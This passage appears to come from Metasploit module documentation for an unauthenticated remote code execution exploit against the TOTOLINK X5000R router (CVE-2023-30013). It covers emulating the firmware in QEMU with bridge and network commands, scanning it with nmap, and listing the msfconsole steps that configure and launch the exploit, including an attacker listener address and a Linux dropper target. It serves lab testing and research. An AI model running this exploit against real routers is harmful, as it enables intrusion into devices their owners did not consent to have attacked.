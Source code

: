 ```ShellSession
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

/ # 
```
* there are two issues, first of all the bridge command showed `eth2` instead `eth0` and `br0` did not have any IP configured.
* To fix this, run the following commands below to make the firmware accessible from the host.
```ShellSession
/ # brctl addif br0 eth0
brctl addif br0 eth0
/ # brctl show
brctl show
bridge name	bridge id		STP enabled	interfaces
br0		8000.525400123456	yes		eth2
							eth0
/ # ifconfig eth0 up
ifconfig eth0 up
/ # ifconfig br0 192.168.0.1 netmask 255.255.255.0 broadcast 192.168.0.255
ifconfig br0 192.168.0.1 netmask 255.255.255.0 broadcast 192.168.0.255
/ #
```
* You should now be able to `ping` the network address 192.168.0.1 from your host and run a `nmap` command to check the services.
```ShellSession
 # ping 192.168.0.1
PING 192.168.0.1 (192.168.0.1) 56(84) bytes of data.
64 bytes from 192.168.0.1: icmp_seq=1 ttl=64 time=8.92 ms
64 bytes from 192.168.0.1: icmp_seq=2 ttl=64 time=2.38 ms
^C
--- 192.168.0.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 2.384/5.650/8.916/3.266 ms
 # nmap 192.168.0.1
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-12 17:44 UTC
Nmap scan report for 192.168.0.1
Host is up (0.011s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE
23/tcp   filtered telnet
80/tcp   filtered http
8080/tcp filtered http-proxy
MAC Address: 52:54:00:12:34:56 (QEMU virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
```
* You are now ready to test the module using the emulated router hardware on IP address 192.168.0.1.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/totolink_x5000r_unauth_rce_cve_2023_30013`
- [x] `set rhosts <ip-target>`
- [x] `set rport <port>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix Command, 1=Linux Dropper>`
- [x] `exploit`
